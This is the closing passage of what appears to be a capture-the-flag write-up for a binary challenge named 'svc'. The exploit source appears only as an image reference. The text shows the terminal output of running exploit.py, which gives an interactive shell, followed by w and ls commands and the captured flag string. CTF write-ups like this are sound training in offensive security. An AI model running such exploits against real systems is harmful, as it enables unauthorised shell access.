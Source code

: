 when we run it:

```
$	python exploit.py
``` 

One wall of text later...

```
[*] Enjoy your shell XD
[*] Switching to interactive mode
[*]BYE ~ TIME TO MINE MIENRALS...
$ w
 01:28:42 up  1:56,  1 user,  load average: 1.04, 0.82, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               23:33    1:56m  3:57   0.03s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
core        leak0.py  peda-session-dash.txt     Readme.md
exploit.py  leak1.py  peda-session-svc.txt     svc
flag        leak2.py  peda-session-w.procps.txt
$ cat flag
flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
```

Just like that, we captured the flag!
